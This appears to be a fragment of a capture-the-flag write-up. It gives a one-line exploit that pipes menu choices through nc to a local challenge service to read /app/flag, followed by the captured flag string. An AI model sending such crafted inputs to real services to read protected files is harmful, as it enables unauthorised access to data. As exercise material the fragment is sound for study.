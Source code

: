 ```bash
printf "3\n0\n2\n/app/flag\n2\n\n1\n" | nc localhost 9999
```

`BtSCTF{f1l3_d3scr1pt0rs_4r3_tr1ckyyyy}`
